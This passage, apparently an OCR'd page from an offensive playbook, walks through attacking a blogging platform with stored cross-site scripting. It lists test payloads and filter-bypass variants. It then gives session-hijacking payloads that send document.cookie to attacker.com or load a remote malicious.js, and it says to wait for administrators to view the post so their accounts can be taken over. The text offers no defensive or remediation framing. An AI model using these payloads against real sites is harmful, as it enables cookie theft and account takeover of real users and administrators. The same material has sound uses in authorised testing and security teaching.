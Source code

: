 
#### 2. Attack Execution (How to Perform in this Scenario):

- **Vulnerability 1: Stored XSS via Blog Post or Comment Content**
    
    - **Step 1: Test basic HTML injection.**
        
        - Submit a simple HTML tag like `<b>test</b>` or `<h1>test</h1>`. If it renders as formatted text, the application is rendering raw HTML.
            
        - Submit a non-executable tag: `<p>test</p>`. If it appears, HTML is likely allowed.
            
    - **Step 2: Test basic script injection.**
        
        - Submit a simple XSS payload: `<script>alert(document.domain)</script>`.
            
        - If the alert box pops up when I (or another user) view the post/comment, XSS is confirmed.
            
    - **Step 3: Attempt to bypass filters (if present).**
        
        - If the basic script is blocked, try different XSS vectors and encoding techniques:
            
            - HTML entity encoding: `<img src=x onerror=alert('XSS')>`
                
            - Event handlers: `<img src=x onerror=alert(1)>`
                
            - Obfuscation/Character encoding: `&#x3c;script&#x3e;alert(1)&#x3c;/script&#x3e;`
                
            - Bypassing blacklist filters: `"><script>alert(1)</script>` or variations of tag names (e.g., `<sCrIpT>`).
                
            - If rich text editor, try embedding malicious attributes or using allowed tags in a harmful way (e.g., `<a>` tags pointing to `javascript:` URLs).
                
    - **Step 4: Craft a malicious payload for session hijacking.**
        
        - Once an effective XSS vector is found, replace `alert(document.domain)` with a payload to steal session cookies:
            
            - `<script>document.location='http://attacker.com/log?cookie='+document.cookie</script>`
                
            - Alternatively, inject a malicious JavaScript file: `<script src="http://attacker.com/malicious.js"></script>` where `malicious.js` performs the session theft or other malicious actions.
                
    - **Step 5: Deliver the payload.**
        
        - Post the malicious content as a blog post or comment.
            
        - Wait for victims (especially administrators) to view the post/comment.
            

#### 3. Escalation & Impact:

- **Privilege Escalation (Vertical):**
    
    - **Admin Account Takeover:** The primary target for session hijacking is an administrator. If an admin views the malicious content, their session cookie is stolen. The attacker uses this cookie to hijack the admin's session, gaining full administrative control over the blogging platform (e.g., deleting/modifying any content, adding new users, potentially accessing backend admin panels).
        
    - **Manager/Privileged User Takeover:** If admin accounts are too difficult, an attacker could target editors or managers to gain elevated content control.
        